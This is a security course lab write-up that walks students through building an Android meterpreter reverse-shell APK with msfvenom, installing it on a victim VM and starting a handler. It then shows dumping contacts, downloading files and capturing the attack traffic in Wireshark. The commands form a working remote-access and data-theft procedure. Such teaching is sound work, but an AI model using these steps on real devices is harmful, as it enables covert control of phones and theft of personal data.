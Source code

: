 # Lab 7: Developing Mobile Malware

## Set-up

Set up two VMs, keep the attacker and victim machine within the same subnet.

`````{tabbed} Attacker: Ubuntu

IP address: `10.0.2.15`


Install [Metasploit](https://www.metasploit.com/) Module


```sh
$ sudo apt install python3-dev
$ curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall
$ chmod 755 msfinstall
$ ./msfinstall
```

Install `adb` to send `.apk` files to the android VM

```
$ sudo apt install adb
```

Install [WireShark](https://www.wireshark.org/) to capture the traffic between two machines:

```
$ sudo add-apt-repository ppa:wireshark-dev/stable
$ sudo apt-get install wireshark
```

`````

`````{tabbed} Victim: Android
IP address: `10.0.2.11`

Run an Android virtual machine as [what seed project requests to do](https://seedsecuritylabs.org/Labs_16.04/Mobile/). After the VM installed, add some entries in `Contacts` app (e.g. Name: KMR, Phone: 114-514-1919)

````{note}
The IP address of the Android VM can be obtained by running `Terminal Emulator` app and typing

```
$ ifconfig
```

````
`````

````{note}
The two IP addresses listed above are just examples, you need to replace the values with the actual IP addresses on your virtual machines by

```
$ ifconfig
```

in the following tasks.

Please make sure that the two VMs are configured with the same subnet.
````


## Explore Metasploits 

```
$ msfconsole
msf >  search type:payload platform:android
```

Create a reversed TCP [^ex]

```
msf > msfvenom -p android/meterpreter/reverse_tcp LHOST=10.0.2.15 LPORT=4444 -f raw -o reverse_tcp.apk
```

Start a handler:

```
msf > use exploit/multi/handler
msf > set payload android/meterpreter/reverse_tcp
msf > set lhost 10.0.2.15
msf > set lport 4444
msf > exploit
```

Send the `reverse_tcp.apk` to the vicitm machine and install it:

```
$ adb connect 10.0.2.11
$ adb install reverse_tcp.apk
```

From the victim Android, we start the installed app `MainActivity`

![](victim.png)

```{warning}
No obvious response after double-clicking, but actually it is running in the backgroud.
```

Then we can see the session information from the attacker VM:

![Connected successfully](session.png)

Press <kbd>Enter</kbd> and go into the `meterpreter` console.

### Basic Commands

Check if the device is rooted

```
meterpreter > check_root
```

See the current directory where you are

```
meterpreter > pwd
/data/user/0/com.metasploit.stage/files
```

Dump all contacts

```
meterpreter > dump_contacts
[*] Fetching 3 contacts into list
[*] Contacts list saved to: contacts_dump_20210527000741.txt
```

Let's check it:

![Dump all contacts information from the victim Android](contacts.png)

````{seealso}
More commands can be found by:

```
meterpreter > help
```

Or see the [Metasploit Cheat Sheet](https://pentestmag.com/metasploit-cheat-sheet/)
````

[^ex]: https://www.hackers-arise.com/post/2018/07/06/metasploit-basics-part-13-exploiting-android-mobile-devices



## Task: steal sensitive files

For example, get the DNS configurations on the victim mobile:

```
meterpreter > cat /etc/hosts
127.0.0.1       localhost
::1             ip6-localhost
```

Download it to the attacker machine

```
meterpreter > download /etc/hosts
```


## Monitor Traffic

Launch `Wireshark` with root privilege:

```
$ sudo wireshark
```

When starting `exploit` in [Explore Metasploits](#explore-metasploits), `Wireshark` captures the TCP traffic between the attacker and the victim. For example, here is the packets that the reversed TCP connection establishes (Note that `10.0.2.15:4444` is the malicious host):

![](./establish.png)

We dump the captured traffic into an `.pcap` file, which can be opened with `wireshark`. for example:

{download}`sample.pcap`

which records all network traffic during the attack, try to distinguish which traffics are related to the attack process.